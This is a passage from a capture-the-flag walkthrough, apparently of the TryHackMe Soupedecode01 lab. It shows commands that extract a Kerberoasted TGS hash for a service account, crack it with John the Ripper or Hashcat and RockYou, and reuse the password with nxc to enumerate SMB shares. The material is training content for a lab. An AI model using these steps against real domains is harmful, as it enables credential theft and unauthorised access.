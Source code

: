 ```sh
cat hashes-kerberoastables.txt | grep file_svc > file_svc.tgs
```

```sh
head -c 30 file_svc.tgs
```

Now Using John the Ripper OR Hashcat with the RockYou wordlist to crack the `Kerberos TGS ticket` hash, successfully revealing the password

![](/images/TryHackMe/Soupedecode01/pass.png)

---

### Accessing the Backup Share

With the `file_svc` account, we enumerate SMB shares again and discover that we now have read access to the `backup` share.

```sh
nxc smb SOUPEDECODE.LOCAL -u 'file_svc' -p 'P******!!' --shares
```


![](/images/TryHackMe/Soupedecode01/file_svc.png)

---